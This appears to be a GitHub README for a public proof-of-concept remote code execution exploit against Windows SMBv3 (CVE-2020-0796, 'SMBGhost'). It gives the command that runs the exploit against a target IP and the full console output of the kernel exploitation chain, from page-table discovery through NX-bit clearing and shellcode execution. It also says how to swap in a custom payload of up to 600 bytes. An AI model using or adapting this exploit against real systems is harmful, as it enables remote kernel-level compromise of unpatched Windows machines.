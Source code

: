 ## Demo Video SMBGhost_RCE:

[![Lazy-RDP Demo](https://i1.ytimg.com/vi/pRyvTViOtJ0/hqdefault.jpg)](https://youtu.be/pRyvTViOtJ0)

# SMBGhost_RCE_PoC

RCE PoC for CVE-2020-0796 "SMBGhost"

For demonstration purposes only! Only use this a reference. Seriously. This has not been tested outside of my lab environment. It was written quickly and needs some work to be more reliable. Sometimes you BSOD. Using this for any purpose other than self education is an extremely bad idea. Your computer will burst in flames. Puppies will die. 

Now that that's out of the way....

Usage ex: 

``` 
$SMBGhost_RCE_PoC python exploit.py -ip 192.168.142.131
[+] found low stub at phys addr 13000!
[+] PML4 at 1ad000
[+] base of HAL heap at fffff79480000000
[+] ntoskrnl entry at fffff80645792010
[+] found PML4 self-ref entry 1eb
[+] found HalpInterruptController at fffff79480001478
[+] found HalpApicRequestInterrupt at fffff80645cb3bb0
[+] built shellcode!
[+] KUSER_SHARED_DATA PTE at fffff5fbc0000000
[+] KUSER_SHARED_DATA PTE NX bit cleared!
[+] Wrote shellcode at fffff78000000a00!
[+] Press a key to execute shellcode!
[+] overwrote HalpInterruptController pointer, should have execution shortly...
```

Replace payload in USER_PAYLOAD in exploit.py. Max of 600 bytes. If you want more, modify the kernel shell code yourself. 

lznt1 code from [here](https://github.com/you0708/lznt1). Modified to add a "bad compression" function to corrupt SRVNET buffer
header without causing a crash.

See this excellent write up by Ricera Security for more details on the methods I used: 
https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html

